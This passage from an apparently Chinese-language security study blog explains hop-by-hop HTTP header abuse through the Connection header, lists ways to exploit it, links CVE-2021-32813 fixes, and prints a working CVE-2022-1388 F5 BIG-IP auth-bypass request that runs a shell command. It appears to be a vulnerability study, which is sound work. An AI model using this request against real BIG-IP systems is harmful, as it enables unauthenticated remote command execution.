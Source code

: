 必须贯穿请求始终

- hop-by-hop

当请求中遇到这些请求头，一个正常的proxy不会把这些信息带到下一个hop内；默认hop-by-hop有这些

```
Connection
Keep-Alive
Proxy-Authenticate
Proxy-Authorization
TE
Trailers
Transfer-Encoding
Upgrade
```

除此之外还可以自定义请求头加入hop-by-hop的行列中，只需把它放入`Connection`字段中即可

```
Connection: close, X-Foo, X-Bar
```

由此导致的hop-by-hop头滥用可能会导致一些逻辑错误

![img](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/hbh-theory-diagram.PNG)

如上图所示，正常proxy处理会在原始请求的下一跳（转移到代理）中移除hop-by-hop列表中的头，利用这种特性，在`Connection`中被添加的头会被移除，有这样几种利用思路：删除XFF头隐藏IP、缓存中毒DoS、SSRF、绕过WAF

由删header导致的权限提升漏洞有CVE-2021-32813，[修复方案](https://github.com/traefik/traefik/pull/8319/commits/cbaf86a93014a969b8accf39301932c17d0d73f9)就是BIG-IP同款的set，还有[栗子](https://github.com/clastix/capsule-proxy/issues/188)和[栗子2](https://github.com/rancher/rancher/security/advisories/GHSA-pvxj-25m6-7vqr)

### CVE-2022-1388

将鉴权用的`X-F5-Auth-Token`头放入`Connection`中让其在被转发至后端服务器时被删掉，从而绕过鉴权

```http
POST /mgmt/tm/util/bash
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: Keep-alive, X-F5-Auth-Token

{
	"command":"run",
	"utilCmdArgs":"-c id"
}
```

更多java代码层的分析详见天河师傅的[这篇](https://mp.weixin.qq.com/s/f11GOUAP1JGvz_HFqCgsTw)

> 首先是当X-F5-Auth-Token为空时走入另一条验证流程，而这个流程依赖于我们给header提供的Authorization:字段。因为Authorization字段可控，并且没有复杂的加密处理，从而导致可以轻易绕过鉴权。

------

{{% spoiler "以下是本文中涉及到的 和我学习时看过的所有文章的链接🔗 每日感谢互联网的丰富资源（" %}}
